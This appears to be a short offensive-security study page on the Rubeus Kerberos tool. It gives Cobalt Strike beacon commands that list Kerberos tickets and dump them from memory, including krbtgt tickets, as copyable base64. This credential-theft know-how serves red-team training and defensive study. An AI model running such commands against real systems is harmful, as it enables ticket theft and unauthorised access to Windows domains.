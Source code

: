 # Rubeus

## Introduction

One fault of Mimikatz is that it obtains handles to sensitive resources (SAM, LSASS, etc.) and can be audited easily. Rubeus, uses legitimate Windows API to obtain it's information about the host.

## Rubeus Credential Commands

### Triage

Rubeus' `triage` command lists all Kerberos tickets in the current logon session. If run with elevated privileges, it will list logon sessions on the machine.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
```

### Dump

Rubeus' dump command will dump the tickets from memory. If not elevated, we can only pull our current session. We need to pass `/luid` and `/service` parameters (found in `triage` command).

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x7049f /service:krbtgt
```

This will output the tickets in base64 format. We can add the `/nowrap` parameter for easy copy / paste.

